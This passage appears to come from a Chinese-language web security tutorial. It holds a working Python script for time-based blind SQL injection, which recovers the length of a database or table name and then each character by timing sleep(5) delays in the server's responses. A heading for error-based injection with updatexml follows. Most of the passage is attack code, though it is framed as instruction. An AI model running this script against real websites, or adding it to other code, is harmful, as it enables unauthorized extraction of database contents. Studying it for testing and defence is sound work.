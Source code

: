 ```py
		,{n},1)
	) ={r})
, sleep(5), 3) -- a"""

# 获取长度
def getLength(url, payload):
    length = 1  # 初始测试长度为1
    while True:
        start_time = time.time()
        response = requests.get(url= url+payload_len.format(n= length))
        # 页面响应时间 = 结束执行的时间 - 开始执行的时间
        use_time = time.time() - start_time
        # 响应时间>5秒时，表示猜解成功
        if use_time > 5:
            print('测试长度完成，长度为：', length,)
            return length;
        else:
            print('正在测试长度：',length)
            length += 1  # 测试长度递增

# 获取字符
def getStr(url, payload, length):
    str = ''  # 初始表名/库名为空
    # 第一层循环，截取每一个字符
    for l in range(1, length+1):
        # 第二层循环，枚举截取字符的每一种可能性
        for n in range(33, 126):
            start_time = time.time()
            response = requests.get(url= url+payload_str.format(n= l, r= n))
            # 页面响应时间 = 结束执行的时间 - 开始执行的时间
            use_time = time.time() - start_time
            # 页面中出现此内容则表示成功
            if use_time > 5:
                str+= chr(n)
                print('第', l, '个字符猜解成功：', str)
                break;
    return str;

# 开始猜解
length = getLength(url, payload_len)
getStr(url, payload_str, length)
```



误差判断，多试几下就可以了



### 报错注入

updatexml：
